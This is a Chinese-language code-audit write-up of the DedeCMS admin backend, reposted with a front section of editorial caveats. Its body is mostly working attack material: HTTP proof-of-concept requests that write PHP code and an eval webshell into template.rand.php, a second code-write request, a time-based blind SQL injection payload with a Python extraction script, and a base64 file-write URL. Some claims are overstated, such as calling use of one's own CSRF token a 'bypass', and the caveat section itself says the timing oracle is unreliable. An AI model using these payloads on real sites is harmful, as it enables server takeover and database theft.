## 核对与使用边界

- 产品与分类更正：本文讨论 DedeCMS；原文中的 `/dede/` 路径、`article_template_rand.php` 和 `DedeUserID` 对应内容管理系统。此前“通天星 CMSV6 车载平台”归属是维护误改。标题中的版本或分支沿用原文，不据标题确认发行版本。


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Mostly admin; valid CSRF token; individual upload/DOM XSS scopes not specified; PHP runtime unknown

- **凭据与会话边界（1）**：Successful article_template_rand/article_string_mix code writes mixed with failed cfg_cookie_encode and MoveFile experiments; keep confidence per issue。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **凭据与会话边界（2）**：Using own valid CSRF token is not a bypass, despite claim 'Burp bypass'。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **结论使用边界（3）**：Time-based SQL script uses2-second sleep but3-second timeout as oracle, no baseline; unreliable。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：Claims every ExecuteNoneQuery2 call injects without tracing individual input controls; overgeneralization。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（5）**：Later SQL2/3 screenshot leads not fully demonstrated; random image write explicitly requires separate inclusion。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（6）**：Title6.0.3 build/fork provenance unsubstantiated; original precise source available。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# DedeCMSV6-0-3 代码审计 - 先知社区

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/10486)

> 先知社区，先知安全技术社区

文件上传
----

[](../../.resource/remote/2597a44b363ff1c20eb9e56695872e1d2908d2d663f3a1103c0556f0d738574d.png)

可以上传 php 文件！

[](../../.resource/remote/4f500f19aea79e3452e3324068bc0818ab6040bc0e8ca6a36b4fb0c77bd38a35.png)

发现什么过滤也没有！

[](../../.resource/remote/8c1587d08915f583f5f5baa79f8f9555b5a11d7b39692598af287d0a1ee8204c.png)

RCE
---

后台`rce`!

[](../../.resource/remote/0d85b0ee2ed80fbab461139426f20bd4ec7461c0b4c5b2646ca12d519af6f437.png)

首先：增加个增加顶级栏目[](../../.resource/remote/418b76ec1b8d2b4616221078b03725d6b8c71f5bc44a31848e9353bdba17ba38.png)

再增加表 `<?php phpinfo()?>` 栏目！

[](../../.resource/remote/c3af74a292f1850b961defb937754ed5c9cc9479068a5fe58fa3fbe32416da1c.png)

DOM 型 xss
---------

[](../../.resource/remote/02099c4aa8e2fa061e3c516ba9891f670d1b331a2656e21e1b5c5676d57e1ba8.png)

RCE
---

[](../../.resource/remote/c8991956a535bc93661124965c30a6202af38dc7ee31fa55b8fe67918346ede7.png)

3 个位置都可 RCE！

[](../../.resource/remote/cd1faeff81cb83131bc58c75cd64c46a9c2e96605eac0215b0d86339c15267f2.png)

[](../../.resource/remote/5892d397fd3e34d36ee7f318636335501a93b2914bb13235281ab949d50963a7.png)

黑盒做完了！ 再做做灰盒！

后台 RCE1
-------

发现一处后台 可以写 shell 地方！ 验证一下：

文件：

`src/dede/article_template_rand.php`

[](../../.resource/remote/1cf0b70c5b3fe070a6ef5ca58e8e4dfcfeec500eba08623d3bdd2f237546e17e.png)

但是要绕过 csrftoken 验证！ 这个用 bp 就行了！

`src/dede/article_template_rand.php` 文件后台存在命令执行漏洞！

执行 poc

```
POST /dede/article_template_rand.php?dopost=save HTTP/1.1
Host: w.scy
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=5_1%2C6_1%2C3_1%2C4_1; XDEBUG_SESSION=PHPSTORM; ckCsrfToken=OAj3tMY65tksg4dRCcHekc7dBpBLZ312HPHD85EA; PHPSESSID=lup7qagfitqscbldpcisro0hj1; dede_csrf_token=a36eac1832db42e1161d7de75c2fdc55; dede_csrf_token__ckMd5=0e0ca51ba7e7ef88
Connection: close
Content-Length: 73
Content-Type: application/x-www-form-urlencoded

_csrf_token=a36eac1832db42e1161d7de75c2fdc55&templates=<?php phpinfo();?>


```

保证下面即可 ，

```
/dede/article_template_rand.php?dopost=save 
_csrf_token=dede_csrf_token的值&templates=想执行的代码

```

[](../../.resource/remote/9dc258b82e4a51cdfd7677c4e4f85e51ef00146e850272e343cb95b850f0715f.png)

命令写入成功

[](../../.resource/remote/10c18e671753e57fe655be88b6a9abcd47b5b75935eabe0adc0c0140ce1c644d.png)

访问验证：

src/data/template.rand.php

[](../../.resource/remote/1c3560dc87dcda75fed1328353a2b08da32f44b83447bc751983e703b790db4f.png)

写入成功！

[](../../.resource/remote/bfa289016f984b65226c8cc8cf2dbd5edfe4c6d8f05d618c6a12371dbb01f4da.png)

写入`shell`!

[](../../.resource/remote/e26cf877fd78e61813d28f3d9c80e0a198df76dcfba8e9e557e3f212f7e48f97.png)

[](../../.resource/remote/56b5da0646371e47d2cf969f4a675b6287edc21ce40eeecc7df8ce4e55084a56.png)

访问：`src/data/template.rand.php`

[](../../.resource/remote/afe2d258e68eda18e921d2ac84e2cd8926ed45a6879bde374444a9927b0ce94c.png)

### poc

```
POST /dede/article_template_rand.php?dopost=save&templates=<?=eval($_POST[1]); HTTP/1.1
Host: w.scy
Content-Length: 44
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Origin: http://w.scy
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://w.scy/dede/article_template_rand.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=5_1%2C6_1%2C3_1%2C4_1; XDEBUG_SESSION=PHPSTORM; lastCid=1; lastCid__ckMd5=98429d7afc1a03cd; lastCidMenu=17; lastCidMenu__ckMd5=1405c63ce3057b17; ckCsrfToken=OAj3tMY65tksg4dRCcHekc7dBpBLZ312HPHD85EA; DedeUserID=1; DedeUserID__ckMd5=98429d7afc1a03cd; PHPSESSID=lup7qagfitqscbldpcisro0hj1; DedeLoginTime=1631246234; DedeLoginTime__ckMd5=cfc1e8591107fb8d; dede_csrf_token=d1d094594ef058ead28e6fb33bcbb4a1; dede_csrf_token__ckMd5=0ac5f86b9805777e
Connection: close

_csrf_token=d1d094594ef058ead28e6fb33bcbb4a1


```

后台 RCE2
-------

`src/dede/article_string_mix.php` 和 rce1 一样的原理！  
[](../../.resource/remote/9b3d6e5cf9adc6845ec5ee7e5b6b067701bc3575a7c8a44ebcbcd3ea4601e90c.png)

执行 poc

```
POST /dede/article_string_mix.php?dopost=save HTTP/1.1
Host: w.scy
Content-Length: 71
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Origin: http://w.scy
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://w.scy/dede/article_string_mix.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=5_1%2C6_1%2C3_1%2C4_1; XDEBUG_SESSION=PHPSTORM; ckCsrfToken=OAj3tMY65tksg4dRCcHekc7dBpBLZ312HPHD85EA; PHPSESSID=lup7qagfitqscbldpcisro0hj1; XDEBUG_SESSION=PHPSTORM; dede_csrf_token=a36eac1832db42e1161d7de75c2fdc55; dede_csrf_token__ckMd5=0e0ca51ba7e7ef88
Connection: close: 

allsource=<?php phpinfo();&_csrf_token=a36eac1832db42e1161d7de75c2fdc55


```

```
POST /dede/article_string_mix.php?dopost=save
allsource=执行的php代码&_csrf_token=cookie里dede_csrf_token的值

```

后台 RCE3
-------

[](../../.resource/remote/5638365998a50afa1737a3c04bde68269f1290a8858218955c4697bcb46f01df.png)

[](../../.resource/remote/ededc52757f37fb81ffad2ff26bed94b85feb8293f8b55c670966a4e7bff2038.png)

要保证几点！

`1 cfg_cookie_encode 小于10`

`$row['value']` 就是咱的恶意代码了！

完了 复现的时候出问题了！`$cfg_cookie_encode` 改不了！我丢！不然应该可以玩一玩的！ 但是

任意文件删除漏洞
--------

`src/dede/file_manage_control.php`

[](../../.resource/remote/121bc0de81ddc9e702850496ca35fa2d5642b5c180fca8505670a7d4b7dccca6.png)

`src/dede/file_class.php`

[](../../.resource/remote/d642bd966fb3a7f3d8252711f54704e474d834bf835bdc7e3b9916929ca6bec5.png)

sql 注入
------

`src/dede/member_do.php`

```
POST /dede/member_do.php HTTP/1.1
Host: w.scy
Content-Length: 178
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Origin: http://w.scy
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://w.scy/dede/member_do.php?id=111111111111&dopost=delmembers
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=PHPSTORM; PHPSESSID=bprt1niss02u4hbl05mf5ajqkf; dede_csrf_token=a1b2c697e96fdfcccb122845ea3fa911; dede_csrf_token__ckMd5=87232a804321c45f; DedeUserID=1; DedeUserID__ckMd5=51977e27cd5892ea; DedeLoginTime=1631952495; DedeLoginTime__ckMd5=99f0d1aeb82b3e4e
Connection: close

fmdo=yes&dopost=delmembers&id=11113)/**/or/**/if(ascii(substr(DATABASE(),1,1))=100,SLEEP(1),0)#&randcode=34335&safecode=939783ba26dceb46dbabe5a8&safecode=939783ba26dceb46dbabe5a8


```

要保证 safecode 和 safecode 一样！ `fmdo=yes` `dopost=delmembers`

`id=11113)/**/or/**/if(ascii(substr(DATABASE(),1,1))=100,SLEEP(1),0)#`

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 2021/5/22 12:45
# @Author  : upload
# @File    : 666.py
# @Software: PyCharm
import string

proxy = '127.0.0.1:8080'
proxies = {
    'http': 'http://' + proxy,
    'https': 'https://' + proxy,
}

strs = ','+string.ascii_letters + string.digits+''+'_!@#%^*{}.-}'

#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 2021/8/15 13:45
# @Author  : upload
# @File    : [SWPU2019]Web4.py
# @Software: PyCharm

import requests
import time

proxy = '127.0.0.1:8080'
proxies = {
    'http': 'http://' + proxy,
    'https': 'https://' + proxy,
}


burp0_url = "http://w.scy:80/dede/member_do.php"
burp0_cookies = {"PHPSESSID": "bprt1niss02u4hbl05mf5ajqkf"}


def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])


flag=''
for i in range(1,50):
    f1=flag
    top=127
    low=33
    while low<=top:

        mid=(top+low)//2

        payload1 = "11113)/**/or/**/if(ascii(substr(DATABASE(),{0},1))={1},SLEEP(2),0)#".format(i,mid)
        payload2 = "11113)/**/or/**/if(ascii(substr(DATABASE(),{0},1))>{1},SLEEP(2),0)#".format(i,mid)
        data1 = {"fmdo": "yes", "dopost": "delmembers",
                      "id":payload1, "randcode": "34335",
                      "safecode": "939783ba26dceb46dbabe5a8", "safecode": "939783ba26dceb46dbabe5a8"}

        data2 = {"fmdo": "yes", "dopost": "delmembers",
                      "id":payload2, "randcode": "34335",
                      "safecode": "939783ba26dceb46dbabe5a8", "safecode": "939783ba26dceb46dbabe5a8"}
        # print(json1,json2)
        try:
            print(i, mid)
            r1 = requests.post(burp0_url, data=data1, proxies=proxies,timeout=3,cookies=burp0_cookies)
        except requests.exceptions.ReadTimeout as e:
            flag +=chr(mid)
            print(flag)
            break
        else:
            try:
                r2 = requests.post(burp0_url, data=data2,proxies=proxies,timeout =3,cookies=burp0_cookies)
                if r2.status_code == 429:
                    print("fast2\n")
                    time.sleep(1)

            except requests.exceptions.ReadTimeout as e:
                low = mid + 1
            else:
                top = mid - 1
    if flag == f1:
        break


print(flag)


```

[](../../.resource/remote/b1cb509032eb299a609e59b7024e4224f17a8a0c2e5eb0ec4eea23f35e88363b.png)

类似的 调用 ExecuteNoneQuery2 函数的地方 都存在！sql 注入！前提没 waf！

sql 注入 2
--------

`src/dede/member_do.php`

[](../../.resource/remote/f2f1cb8d6634e314e8c67b82366fb14e401e7c2b812f5e0472c0557e0dbfab32.png)

```
else if ($dopost == 'edituser') {
    CheckPurview('member_Edit');
    if (!isset($_POST['id'])) exit('Request Error!');
    $pwdsql = empty($pwd) ? '' : ",pwd='" . md5($pwd) . "'";
    if (empty($sex)) $sex = '男';
    $uptime = GetMkTime($uptime);
echo 222233;
echo $id;
    if ($matt == 10 && $oldmatt != 10) {
        ShowMsg("对不起，为安全起见，不支持直接把前台会员转为管理的操作！", "-1");
        exit();
    }
    $query = "UPDATE `#@__member` SET
            email = '$email',
            uname = '$uname',
            sex = '$sex',
            matt = '$matt',
            money = '$money',
            scores = '$scores',
            rank = '$rank',
            spacesta='$spacesta',
            uptime='$uptime',
            exptime='$exptime'
            $pwdsql
            WHERE mid='$id' AND matt<>10 ";


```

sql 注入 3
--------

`src/dede/sys_admin_user_edit.php`

[](../../.resource/remote/e0ed4de8cbad6b5d0284c47c2c6e8813335753b59c4bd4dc7a96698928ea855e.png)

文件写入
----

`src/dede/file_class.php` 下面 `MoveFile`函数 但是`$oldfile` 是拼接的 ！没法绕

[](../../.resource/remote/33b270dfd7142f562b42be802c621397774c770ac69062f491bb6534a1f82d7e.png)

文件写入
----

找到了个文件写入！

poc

```
http://w.scy/dede/album_add.php?dopost=save&litpic_b64=,%50%44%39%77%61%48%41%67%5a%57%4e%6f%62%79%41%78%4d%54%45%37%5a%58%5a%68%62%43%67%6b%58%31%42%50%55%31%52%62%4d%56%30%70%4f%77%3d%3d,a&typeid=1&channelid=1

```

但是写入的文件是图片！而且文件名随机！需要爆破！还需要文件包含！

就到这里把！以后再挖！

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
